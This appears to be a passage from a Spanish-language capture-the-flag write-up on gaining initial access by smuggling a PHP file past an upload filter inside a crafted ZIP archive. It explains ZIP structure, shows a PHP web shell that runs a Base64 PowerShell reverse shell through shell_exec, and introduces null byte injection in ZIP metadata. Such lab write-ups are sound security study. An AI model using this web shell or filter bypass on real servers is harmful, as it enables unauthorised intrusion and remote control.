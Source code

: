 Es posible ganar acceso inicial empleando dos técnicas para evadir filtros de detección de archivos maliciosos, en este caso, archivos PHP.


## Understanding ZIP File Structure

Para entender cómo ganamos acceso mediante un comprimido `.zip` malicioso, necesitaremos comprensión acerca de los [componentes de un archivo ZIP](https://users.cs.jmu.edu/buchhofp/forensics/formats/pkzip.html). Un archivo comprimido posee la siguiente estructura esencial

- **Entradas de archivo** (`File Entries`): Cada archivo se almacena con metadatos como su nombre, tamaño y fecha de modificación, esta sección de metadatos es conocida como `Local File Header`.

- **Directorio Central** (`Central Directory`): Se encuentra al final del archivo ZIP, incluye una lista de archivos junto con su ubicación dentro del ZIP. El lector ZIP consulta el directorio central para localizar y mostrar los archivos.

- **EOCD** (Fin del Directorio Central o `End of Central Directory`): Este registro se encuentra al final del archivo ZIP e indica dónde comienza el directorio central, facilita a los lectores ZIP encontrar los archivos 

![image-center](/assets/images/posts/certificate-zip-file.png)
{: .align-center}



Realizando pruebas con diferentes formas de ejecutar una reverse shell en PHP, la función que ha funcionado para mi caso ha sido utilizar la función `shell_exec()`.

El contenido de `shell.php` es el siguiente, en mi caso generé una reverse shell desde [`revshells.com`](https://www.revshells.com/), utilizando un payload `PowerShell #3 (Base64)`

~~~ php
<?php
shell_exec("powershell -e BASE64_REVERSE_SHELL");
?>
~~~


## 1. File Upload Bypass - Null Byte Injection

La primera técnica que podemos utilizar para evadir el filtro de archivos es inyectando un `Null Byte` dentro de los metadatos del archivo comprimido ZIP que el servidor espera que subamos.
